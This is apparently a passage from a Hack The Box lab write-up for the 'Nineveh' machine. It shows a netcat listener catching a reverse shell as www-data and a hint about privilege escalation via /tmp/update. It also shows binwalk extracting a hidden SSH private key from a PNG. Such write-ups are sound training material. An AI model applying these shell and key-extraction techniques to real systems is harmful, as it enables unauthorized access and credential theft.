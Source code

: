 ```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ sudo nc -lnvp 444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::444
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:50020.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This `www-data` user also could've done the privilege escalation by placing the `/tmp/update` file.

### Binwalk to extract data from image

Instead of manually looking trough the output of the strings command on the image we could've used Binwalk with the `-Me` parameters. `M` to recursively scan extracted files and `e` to extract files.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh/images$ binwalk -Me nineveh.png

Scan Time:     2020-06-11 15:46:46
Target File:   /home/luc/Documents/Cyber-security/HTB/Nineveh/images/nineveh.png
MD5 Checksum:  353b8f5a4578e4472c686b6e1f15c808
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)


Scan Time:     2020-06-11 15:46:46
Target File:   /home/luc/Documents/Cyber-security/HTB/Nineveh/images/_nineveh.png.extracted/54
MD5 Checksum:  d41d8cd98f00b204e9800998ecf8427e
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------


Scan Time:     2020-06-11 15:46:46
Target File:   /home/luc/Documents/Cyber-security/HTB/Nineveh/images/_nineveh.png.extracted/secret/nineveh.priv
MD5 Checksum:  f426d661f94b16292efc810ebb7ea305
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PEM RSA private key


Scan Time:     2020-06-11 15:46:46
Target File:   /home/luc/Documents/Cyber-security/HTB/Nineveh/images/_nineveh.png.extracted/secret/nineveh.pub
MD5 Checksum:  6b60618d207ad97e76664174e805cfda
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             OpenSSH RSA public key
```
